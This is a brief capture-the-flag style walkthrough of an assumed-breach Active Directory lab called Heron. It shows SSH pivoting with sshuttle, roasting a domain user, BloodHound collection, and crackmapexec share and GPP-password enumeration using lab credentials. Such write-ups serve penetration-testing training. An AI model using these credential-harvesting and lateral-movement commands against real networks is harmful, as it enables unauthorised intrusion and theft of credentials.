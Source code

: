 
![](Heron_Cover.png)


This is an assumed breach scenario. Heron Corp created a low-privileged local user account on a jump server for you.

```
pentest:Heron123!
```

The goal is to find as many vulnerabilities as you can and to try to escalate your privileges.

```
└─# ssh pentest@10.10.158.150
```



Scanning the ports from the jmp server. 

![](Fscan_DC.png)



Lets access the internal network , we can use ssh reverse proxy for that. 

```
└─# sshuttle -r pentest:'Heron123!'@10.10.158.150 10.10.158.1/24 -x 10.10.158.150
```


Enumerating the web-server , found some usernames . Lets find if they are roastable and any of our use !


![](User_Web.png)


![](Samuel_Roastable.png)

Cool ! We got a domain user . Its show time !

```
└─# bloodhound-python --username samuel.davies --password l6fkiy9oN --domain heron.vl --nameserver 10.10.158.149 --domain-controller MUCDC.heron.vl --collectionmethod all --zip
```


```
└─# crackmapexec smb 10.10.158.149 -u samuel.davies -p l6fkiy9oN --shares
```


![](Shares_Access.png)



```
└─# crackmapexec smb 10.10.158.149 -u samuel.davies -p l6fkiy9oN -M gpp_password
```


